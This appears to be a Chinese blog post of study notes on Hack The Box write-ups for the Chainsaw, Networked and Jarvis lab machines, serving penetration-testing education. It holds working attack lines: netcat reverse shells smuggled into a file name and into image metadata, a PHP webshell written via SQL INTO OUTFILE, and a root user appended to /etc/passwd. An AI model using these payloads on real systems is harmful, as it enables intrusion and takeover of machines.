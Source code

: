 ```yaml
---
layout: post
title: 《0xrick's Write-ups for hack-the-box》学习备忘录（二）
description: ""
keywords: ""
---
```


Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categories/hack-the-box/)

### 八、Chainsaw

环境概述：Linux、Hard、40'、15 Jun 2019

渗透流程：Nmap -> FTP -> WeaponizedPing: Analysis -> WeaponizedPing: Interaction -> WeaponizedPing: Exploitation -> ipfs –> SSH as bobby –> User Flag -> ChainsawClub: Analysis -> ChainsawClub: Exploitation -> Slack Space –> Root Flag

知识点：

- Nmap：使用-sC参数测试出21/tcp FTP服务允许匿名登陆，并列出了当前目录下的文件。
- FTP：kali下使用ftp访问，`ftp host`；将远程机器上的当前目录下的所有文件下载到本地，`mget *`。
- Nmap：全端口扫描，`nmap -p- -T5 chainsaw.htb --max-retries 1 -o nmapfull`；指定端口扫描，`nmap -p 9810 -sV -sT -sC -o nmap9810 chainsaw.htb `。
- 智能合约：Nmap发现9810端口是基于HTTP协议的JSON-RPC服务，使用Python的[web3.py](https://web3py.readthedocs.io/en/stable/index.html)连接以太坊智能合约并与之交互；**与智能合约交互需要获得合约地址和ABI（Application Binary Interface）**；使用[solidity IDE](http://remix.hubwiz.com/)编译合约内容获取ABI，这里作者使用的官方在线IDE测试失败，故使用国内的一款；ABI除了编译合约获取，也可以直接从泄露的JSON-RFC获取。
- echo：将文件内容打印输出为一行，echo -n \`cat file\`。
- IPFS：星际文件系统（InterPlanetary File System）是一个旨在创建持久且分布式存储和共享文件的网络传输协议，在IPFS网络中的节点将构成一个分布式文件系统；获取本地引用，`ipfs refs local`；查看指定引用系统的文件名，`ipfs ls systemhash`；获取文件内容，`ipfs get filehash`。
- John：可以利用John自带的[ssh2john.py](/usr/share/john/ssh2john.py)将SSH的私钥装换成John可识别的hash，并利用John破解密码。
- 端口转发：使用SSH，`ssh -L 63991:127.0.0.1:63991 -i bobby.key.enc bobby@chainsaw.htb`，可以加个-N参数，仅仅用来转发并处于等待状态。
- 数据隐写：Slack space隐写，`bmap --mode slack root.txt --verbose`。

思考：

- FTP：匿名登陆常见弱口令，`anonymous:空`、`ftp:ftp`、`user:pass`。
- 以太坊：以太坊是一个运行智能合约的分布式平台。以太坊类比操作系统，智能合约类比应用。
- 智能合约：智能合约被编译为以太坊虚拟机字节码存储在以太坊的区块链上，通过网络中的每个以太坊节点运行EVM（Ethereum Virtual Machine，以太坊虚拟机）实现并执行指令。如果说比特币是二维世界的话，那么以太坊就是三维世界，可以实现无数个不同的二维世界。传统Web服务的后端业务作为只能合约在以太坊上运行。
- EML格式：是微软为Outlook和Outlook Express开发的文件格式；是将邮件归档后生成的文件，保留着原来的HTML格式和标题。
- Linux登陆：使用私钥登陆服务端仍然要输密码，网上多是说由于服务端文件权限配置问题，各种600、700权限设置，天花乱坠，其实这里还可能是客户端问题。不管是使用ssh-copy-id，`ssh-copy-id -i id_rsa_mac kali@172.16.58.129`，还是直接创建.ssh目录并写入authorized_keys文件，`mkdir .ssh; vim authorized_keys`，默认服务端的权限配置都是已经配好了的，无需更改，因为这里只要求authorized_keys文件的其他组O没有写权限-w即可。至于客户端问题，需要使用-vvT参数输出debug log来观察，`ssh -vvT kali@172.16.58.129`。e.g 我本地是配合config文件使用SSH的，生成的服务器私钥文件名并不为默认id_rsa，log中提示SSH已遍历了一些默认的私钥地址，但并无此私钥，因此需要-i指定私钥位置，或在config中设置服务器连接配置。
- John：默认自带一些服务秘钥转HASH的脚本，kali的在/usr/share/john目录下。
- SSH代理：也可以利用SSH设置代理，`ssh -D 1080 -fN -i bobby.key.enc bobby@chainsaw.htb`
- 这是一个关于智能合约的漏洞环境，从智能合约的定义、编写、编译、部署到交互，可以拓展学习不少有趣的东西。

### 九、Networked

环境概述：Linux、Easy、20'、24 Aug 2019

渗透流程：Nmap -> Web Enumeration -> RCE –> Shell as apache -> Command Injection in check_attack.php –> Shell as guly –> User Flag -> Command Injection in the Network Script Name –> Root Shell –> Root Flag

知识点：

- 信息泄露：使用gobuster枚举目录，发现备份文件。
- tar：解压缩`tar zxvf backup.tar `，压缩`tar zcvf test.tar file1 file2`。
- GetShell：制作图片马，重命名为test.php.png，上传并触发RCE，获取apache shell。
- GetShell：guly用户家目录存在定时任务，每三分钟执行某PHP文件，内含RCE code，`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`，`$value`参数可控且为指定目录下的文件名，使用touch可新建名为`'; nc 10.10.xx.xx 1338 -c bash'`文件，将代码注入并执行，触发RCE，获取guly shell。
- Linux提权：使用`sudo -l`查看当前用户可以使用sudo的范围情况，如下显示guly可以以root权限调用changename.sh，`sudo ./usr/local/sbin/changename.sh`；此文件是设置网络配置的脚本，参考[exp](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)从而提权。

```
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

思考：

- 代码审计：作者并没有解释为何上传特殊文件导致RCE的。这里是由于lib.php文件的getnameUpload()函数使用了implode()获取文件后缀，导致可以上传`.php.png`后缀的文件，使用`php -a`获得交互来测试，如下；RCE是PHP和Apache配置错误引发的问题，将`.php*`的文件按php执行，参考[paper](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)。

```
php > $filename="image.php.png";
php > $pieces = explode('.',$filename); print_r($pieces);
Array
(
    [0] => image
    [1] => php
    [2] => png
)
php > $name= array_shift($pieces); echo $name;
image
php > $name = str_replace('_','.',$name); echo $name;
image
php > $ext = implode('.',$pieces); echo $ext;
php.png
```

- 图片马：制作图片马，文中直接使用的`echo >>`追加，同样原理Windows下使用`copy`来追加，或使用010editor等二进制编辑器来追加，但这些都可能涉及图片完整性问题；可以使用exiftool，`exiftool -Comment='<?php system("nc 10.10.14.4 1337 -e /bin/bash"); ?>' test.php.png`，保持图片完整性。
- 定时任务：家目录下的crontab.guly默认不能触发定时器，定时器服务名为`crond`，日志在`/var/log/cron`。
- Linux网卡设置：如果直接修改网络配置文件，即ifcfg-ethx等文件话，必须通过ifup/ifdown来启动/关闭；CentOS系网络配置文件所在目录`/etc/sysconfig/network-scripts/`，Ubuntu系`/etc/network/interfaces/`。

### 十、Jarvis

环境概述：Linux、Medium、30'、22 Jun 2019

渗透流程：Nmap -> Web Enumeration -> SQLi in room.php -> RCE –> Shell as www-data -> Command Injection in simpler.py –> Shell as pepper –> User Flag -> Systemctl: suid –> Root Shell –> Root Flag

知识点：

- SQL注入：利用切换user-agent来bypass，使用sqlmap，`sqlmap -u http://jarvis.htb/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" `。
- RCE：利用sqlmap的`--os-shell`直接getshell；或者使用`--passwords`dump hash，并[在线破解](https://crackstation.net)，以此登陆phpmyadmin，执行SQL来getshell；
- GetShell：phpmyadmin执行SQL写入，`SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/sh3ll.php"`。
- GetShell：查看当前用户sudo特权范围，`sudo -l`，发现可以以pepper身份执行simpler.py，`sudo -u pepper /var/www/Admin-Utilities/simpler.py`，-u指定用户，默认root。exec_ping()存在os.system()且接受输入，但过滤了某些符号，使用`$(bash)`绕过，获得pepper shell。
- Linux提权：使用`find / -perm -4000 2>/dev/null`搜索拥有suid的二进制程序，通过[gtfobins](https://gtfobins.github.io/)的SUID tag发现systemctl可被利用；使用systemctl的root权限链接并启动自定义的服务，进而利用服务配置文件[Service]->ExecStart执行脚本，脚本通过在`/etc/passwd`后追加新用户信息来创新用户，`echo 'rooot:gDlPrjU6SWeKo:0:0:root:/root:/bin/bash' >> /etc/passwd`，即以root权限添加用户rooot，UID和GID均为0；使用`su rooot`切换用户，完成提权。

思考：

- SQL注入：MySQL注入绕过姿势，参考[1](https://ai-sewell.me/2017/Some-features-of-MySQL-in-CTF/)。
- SQLMap：`--random-agent `，使用随机的user-agent；其他参数及技巧参考[1](https://xz.aliyun.com/t/3010)、[2](https://xz.aliyun.com/t/3011)。
- GetShell：要执行SQL语句可以直接利用`sqlmap --sql-shell`；phpmyadmin除执行SQL语句写入shell外，还可利用日志、利用自身漏洞（包含、代码执行等）。
- MySQL：version>4.1密码为*+40位hash，Windows的存在于`path\data\mysql\user.MYD`文件中，可直接打开并拼接40位hash来获取，Linux同理在`/var/lib/mysql/mysql/user.MYD`；利用MySQL写入要留意secure_file_priv参数，是用来限制LOAD DATA, SELECT ... OUTFILE, LOAD_FILE()传到哪个指定目录的。
- Linux：systemctl命令启动的服务都是由service配置文件启动的，enable都是link的配置文件；`/etc/passwd`是用户标记文件，每行格式为`用户名:口令:用户标识号:组标识号:注释性描述:主目录:登录Shell`，由于passwd文件任何人可读，即系统默认用户将口令存放到/etc/shadow，在passwd文件的口令字段中只存放一个特殊的字符，例如x或者\*。
- 添加用户：一般在Webshell中，passwd这种交互式的命令无法执行，可以使用chpasswd，`echo 'sewellding:123456' | chpasswd`进行非交互式的添加账户，或者还是使用passwd，`echo "123456" | passwd --stdin 'sewellding'`。